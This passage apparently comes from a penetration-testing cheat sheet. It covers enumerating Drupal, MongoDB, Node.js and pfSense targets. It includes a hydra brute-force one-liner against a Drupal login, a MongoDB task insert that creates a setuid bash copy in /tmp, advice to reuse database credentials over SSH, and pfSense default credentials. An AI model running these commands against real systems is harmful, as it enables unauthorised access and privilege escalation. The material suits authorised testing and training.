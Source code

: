 [+] http://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf (pg42)  
  
---
<a name="enumerate_app_drupal"></a>
#### enumerate_app_drupal [⇡](#enumerate)  
```shell
version:
  http://<targetip>:<targetport>/CHANGELOG.txt
bruteforce:
  ipaddr="<targetip>"; id=$(curl -s http://$ipaddr/user/ | grep "form_build_id" | cut -d"\"" -f6); hydra -L userlist.txt -P /usr/share/wordlists/rockyou.txt $site http-form-post "/?q=user/:name=^USER^&pass=^PASS^&form_id=user_login&form_build_id="$id":Sorry" -V
scan:
  /opt/droopescan/droopescan scan drupal -u http://<targetip>

```
  
  
---
<a name="enumerate_app_mongo"></a>
#### enumerate_app_mongo [⇡](#enumerate)  
```shell
mongo -p -u mark scheduler => connects to mongodb as user mark and allows interaction with db scheduler
use scheduler => switch db
db.getCollectionNames() => list all collections/tables
db.tasks.find({}) => show all entries from collection/table
db.tasks.insert({"cmd": "cp /bin/bash /tmp/bash; chmod u+s /tmp/bash;"}) => insert a new entry within table tasks

```
  
  
---
<a name="enumerate_app_nodejs"></a>
#### enumerate_app_nodejs [⇡](#enumerate)  
```shell
check source and look at the js files to find interesting links/apis
use burp to spider and create a sitemap of the website
find app.js and look for db credentials (sql/mongo)
try ssh using db credentials

```
  
  
---
<a name="enumerate_app_pfsense"></a>
#### enumerate_app_pfsense [⇡](#enumerate)  
```shell
default credentials: admin/pfsense

```
  
  
---